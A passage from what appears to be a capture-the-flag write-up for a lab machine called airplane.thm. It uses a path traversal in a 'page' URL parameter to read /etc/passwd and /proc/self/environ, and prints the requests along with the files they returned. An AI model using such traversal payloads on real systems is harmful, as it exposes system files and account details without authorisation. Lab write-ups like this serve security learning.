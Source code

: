 While it's running - we can look at the page

it takes one parameter - `page`
```
http://airplane.thm:8000/?page=index.html
```

What if we tried `../../../../../../etc/passwd`

Something got downloaded!

![I think it's it](https://i.ibb.co/XXvyYmB/obraz.png)

### Web exploitation

What's in there?
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
[Bunch of other stuff]
carlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
hudson:x:1001:1001::/home/hudson:/bin/bash
sshd:x:128:65534::/run/sshd:/usr/sbin/nologin
```

We now know that we've got 2 users - `hudson` and `carlos`

I've downloaded enviromental variables too
```
http://airplane.thm:8000/?page=../../../../../../proc/self/environ
```
```
LANG=en_US.UTF-8�LC_ADDRESS=tr_TR.UTF-8
LC_IDENTIFICATION=tr_TR.UTF-8
LC_MEASUREMENT=tr_TR.UTF-8
LC_MONETARY=tr_TR.UTF-8
LC_NAME=tr_TR.UTF-8
LC_NUMERIC=tr_TR.UTF-8
LC_PAPER=tr_TR.UTF-8
LC_TELEPHONE=tr_TR.UTF-8
LC_TIME=tr_TR.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
HOME=/home/hudson
LOGNAME=hudson
USER=hudson
SHELL=/bin/bash
INVOCATION_ID=a7b6db43cf784a56a137cd6d6a5ed120
JOURNAL_STREAM=9:20267
```
